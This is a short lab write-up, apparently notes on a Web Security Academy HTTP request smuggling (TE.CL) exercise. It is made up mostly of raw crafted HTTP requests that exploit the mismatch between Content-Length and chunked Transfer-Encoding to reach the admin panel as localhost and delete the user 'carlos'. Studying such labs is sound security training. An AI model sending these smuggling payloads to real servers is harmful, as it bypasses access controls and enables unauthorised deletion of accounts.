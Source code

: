 It is similar to the last lab, the only thing that change is how they manage the front and the back.
This first one we can send and one normal peticion, if all is ok we will receive a 200 and on the normal request the answer should be the admin panel
```
POST / HTTP/1.1
Host: 0a5300e0043f22b081c9e9210001001c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

6a
GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0

```

```
POST / HTTP/1.1
Host: 0a5300e0043f22b081c9e9210001001c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

foo=bar
```


The final request.
CL 4 --> because want that the backend count only the first 4
TE 81--> we need to bypass the front, so we send 81 that is the count in hexadecimal of all the second peticion, and one 0 at the end to say that there is ended. 
CL (second request) 6--> It is 5 plus 1 in order to wait include in the next petition. 

```
POST / HTTP/1.1
Host: 0a5300e0043f22b081c9e9210001001c.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

81
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0


```
